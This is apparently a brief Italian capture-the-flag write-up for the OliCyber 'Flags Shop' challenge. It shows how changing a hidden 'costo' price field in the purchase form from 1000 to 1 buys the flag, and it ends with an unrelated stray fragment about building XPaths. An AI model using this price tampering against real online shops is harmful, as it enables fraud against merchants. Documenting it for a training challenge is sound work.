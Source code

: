 # Flags Shop

http://shops.challs.olicyber.it/

## Spiegazione

Viene lasciato nel frontend il valore dal mandare al backend per quanto riguarda il costo delle bandiere.
Quindi basta modificare il frontend con un prezzo inferiore a quello di 100 e si riesce ad accedere alla bandiera voluta.

Letteralmente basta cambiare 
```
<form action="buy.php" method="POST" class="mt-2">
                            <input type="hidden" name="id" value="2">
                            <input type="hidden" name="costo" value="1000">
                            <button type="submit" class="btn btn-primary">ACQUISTA</button>
</form> 
```

in questo 
```
<form action="buy.php" method="POST" class="mt-2">
                            <input type="hidden" name="id" value="2">
                            <input type="hidden" name="costo" value="1"> cambio il prezzo!!!
                            <button type="submit" class="btn btn-primary">ACQUISTA</button>
</form> 
```



Percorrere al contrario fino alla radice?

Dato il nodo, percorro il percorso al contrario e costruisco un XPath che però è molto suscettibile al cambiamento di template